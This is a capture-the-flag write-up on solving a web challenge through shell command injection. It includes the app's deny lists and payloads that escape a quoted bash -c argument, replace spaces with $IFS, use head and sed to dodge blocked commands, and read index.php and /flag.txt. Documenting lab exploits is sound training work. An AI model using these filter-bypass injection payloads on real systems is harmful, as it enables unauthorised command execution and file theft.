










# Breaking Bad

## Challenge Details

Difficulty: Easy\
Author: 0xjeppe

> This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!\
> Our bakers have been trying to come up with a new P2P-recipe trying all sorts of weird ingredients to raise the purity, but it's so costly this way.\
> Luckily, the developers at Brunnerne have come up with a bash -c 'recipe' that can simulate the baking process. This way we can test ingredients in a simulator to find ingredients that result in a higher purity - without wasting any ressources.



In this challenge, we are given access to a web page with a text box we can send inputs to "analyze". Doing so echo's our input and reports a "purity" as a percentage.



## Reconnaissance

### Initial steps

To get started I just tried a bunch of random inputs. The purities given seem pretty random, and sending the same input multiple times can give different purities. However, trying something with a few special characters gives us an "Illegal character detected!" response.



After probing for a few more special characters, we notice that sending a `'` character does not give us an "Illegal character detected!" and seems to cause a bug.



I also took a quick peak at the source code for the page and noticed that the image on the website is stored under `/static/images/background.png`. Navigating to `/static` I am able to access the files stored here, but there's no else here other than the .css files and the background image.



From the challenge description, it mentions the command `bash -c 'recipe'`. We can guess our input is being put into some string as part of that "recipe" component, and sending a `'` character lets us break out of it.

After a bit more testing, we also find that the `;` is also allowed, meaning we can send something like `';malicious-command'`. However, spaces are blocked so sending parameters will be a challenge. Even with this limitations, there is still a lot we can do.



### Probing with one word commands

So, I went ahead and used a bunch of one word commands to probe for more information. Another road block I found from doing this though, is that some commands are specifically blocked. For example, any input that contains "echo" or "cat" give an "Illegal command detected!" response.



Regardless, most commands I ran were let through. After running a few of them, I found the following useful information:

- pwd: `/var/www/bakingbad`
- ls: `index.php quality.sh static`

### Viewing quality.sh and determining "recipe"

Looking at that `quality.sh` file it looks interesting. I know `/static` is accessible, and `/index.php` is just the front page. Navigating to `/quality.sh` we can finally see where our input is going.

```
#!/bin/sh
ingredient="$1"
[ -z "$ingredient" ] && { echo "No ingredient!"; exit 1; }

purity=$(awk -v s="$RANDOM" 'BEGIN{srand(s);printf "%.1f",80+20*rand()}')
echo "Ingredient: $ingredient"
echo "Purity: $purity%"
```

From this, we can guess our "recipe" looks something like this:

`bash -c './quality.sh user-input'`

Finally, I wrote up a script `find-illegal-chars.py` which just bruteforce tests every printable character and figures out which ones trigger the "Illegal character detected!" message, giving us this list of characters.

Illegal chars: ``['&', '|', '`', '>', '<', '(', ')', '[', ']', '\', '"', '*', '/', ' ']``

I noticed that even though spaces are blocked, `$` is not. After a bit of research, there is a built-in bash variable `$IFS` which acts just like a space. Sure enough, we can now run commands with parameters like this `';malicious-command$IFSparameter'



### Opening index.php

Now, we can finally take a look at that index.php file we saw earlier. The cat command is disallowed but with some testing head is let through. We can now see the start of this file, giving us the list of denied commands.

Payload: `';head$IFS'index.php`

When sending these payloads with parameters we have to be sure to move our second single quote so the end of the command becomes `'index.php'` and not `index.php''` which can cause errors.



`$denyListCommands = ['rm', 'mv', 'cp', 'cat', 'echo', 'touch', 'chmod', 'chown', 'kill', 'ps', 'top', 'find'];`

Quickly checking its easy enough to find a command that is not disallowed and lets us view the whole file.

Payload: `';sed$IFS''$IFS'index.php`

```
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$ingredient = $_GET['ingredient'] ?? '';

$denyListCharacters = ['&', '|', '`', '>', '<', '(', ')', '[', ']', '\\', '"', '*', '/', ' '];
$denyListCommands = ['rm', 'mv', 'cp', 'cat', 'echo', 'touch', 'chmod', 'chown', 'kill', 'ps', 'top', 'find'];

function loadSecretRecipe() {
    file_get_contents('/flag.txt');
}
```

Full file is under index.php.

## Solution

With all the pieces in place we can finally solve this challenge.

It is mentioned in the code that our flag is stored under `/flag.txt`. We can't use forward or backslashes since they are blocked, but we can easily get around this by just chaining a bunch of cd commands to get to our root directory like so:

Payload: `';cd$IFS..;cd$IFS..;cd$IFS..;head$IFS'flag.txt`



Flag: `brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}`